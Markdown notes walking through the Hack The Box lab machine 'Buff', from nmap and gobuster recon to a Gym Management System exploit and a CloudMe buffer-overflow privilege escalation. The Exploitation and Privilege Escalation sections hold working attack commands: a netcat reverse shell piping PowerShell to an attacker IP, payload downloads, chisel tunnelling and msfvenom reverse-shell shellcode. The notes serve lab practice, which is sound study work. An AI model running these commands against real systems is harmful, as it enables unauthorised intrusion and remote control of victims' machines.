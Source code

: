 # Buff Tips

# ${{\color{purple}Initial Recon}}\ $

`nmap -sC -sV -oA buff 10.10.10.198` 
### or 
`nmap -p- -sV -oA bufffull 10.10.10.198`

# ${{\color{purple}Initial Foothold}}\ $

* Inspect source code
* Launch gobuster at the same time 

`gobuster dir -u http://10.10.10.198:8080/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster.out`
* Download an image and look at the metadata check the date of upload with `exiftool`
* Visit the site as a user :white_check_mark:
* Add a proxy in the exploit to redirect flows to burp

`searchsploit Gym Management System 1.0`

# ${{\color{purple}Exploitation}}\ $
https://www.exploit-db.com/48506

`searchsploit -m php/webapps/48506.py`

`python2.7 48506.py http://10.10.10.198:8080`

`curl http://10.10.X.X:80/nc.exe -o nc.exe && nc.exe 10.10.X.X 444 -e powershell`
### or 
`powershell Invoke-WebRequest -Uri http://10.10.X.X/nc.exe -OutFile C:\xampp\htdocs\gym\upload\nc.exe`

`netstat -an | findstr "LISTENING"`
### Windows Machine :
`.\chisel.exe client 10.10.16.5:9002 R:3306:localhost:3306 R:8888:localhost:8888`
### kali Machine :
`./chisel server --reverse --port 9002`

# ${{\color{purple}Privilege Escalation}}\ $
https://www.exploit-db.com/exploits/48389

`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.X.X LPORT=1234 EXITFUNC=thread-b '\x00\x0A\x0D' -f python`

`python buffer_CloudMe_1112.py`

# ${{\color{purple}Points of Improvement}}\ $

* Use `netcat wget powershell` to avoid being locked into a bad shell 
* Do the post exploitation by hand before using tools like `WinPeas.exe`
* Don't forget to change the variable names when I use msfvenom
